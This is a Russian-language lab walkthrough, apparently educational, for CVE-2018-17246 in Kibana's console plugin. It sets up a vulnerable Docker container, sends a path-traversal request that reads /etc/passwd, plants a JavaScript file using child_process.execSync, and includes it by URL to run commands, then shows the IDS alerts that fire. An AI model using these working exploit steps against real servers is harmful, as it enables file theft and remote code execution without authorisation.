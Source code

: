 # CVE-2018-17246

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2018-17246](https://nvd.nist.gov/vuln/detail/CVE-2018-17246)
* [https://www.opencve.io/cve/CVE-2018-17246](https://www.opencve.io/cve/CVE-2018-17246)

Kibana — это панель визуализации данных для Elasticsearch  с открытым исходным кодом.

Версии Kibana до 6.4.3 и 5.6.13 содержат ошибку включения произвольных файлов в плагине консоли. Злоумышленник, имеющий доступ к API консоли Kibana, может отправить запрос, который попытается выполнить код JavaScript. Это может привести к тому, что злоумышленник сможет выполнять произвольные команды с разрешениями процесса Kibana на хосте.

### Эксплуатация уязвимости&#x20;

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:5601 будет доступна панель Kibana

Введите следующий URL-адрес в вашу поисковую строку:

```
http://ваш-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

При отправке этого запроса возникает 500-я ошибка, но мы можем увидеть исключение в логах контейнера (`docker compose logs`)

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости запишите следующий код в файл на уязвимом хосте&#x20;

```
docker compose exec kibana bash
echo "export default {asJson: function() {return require(\"child_process\").execSync(\"id\").toString()}}" > /tmp/vulhub.js
```

После отправки следующего  GET-запроса в ответе мы получим результат выполнения команды id на целевой машине:

```
http://ваш-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../tmp/vulhub.js
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>
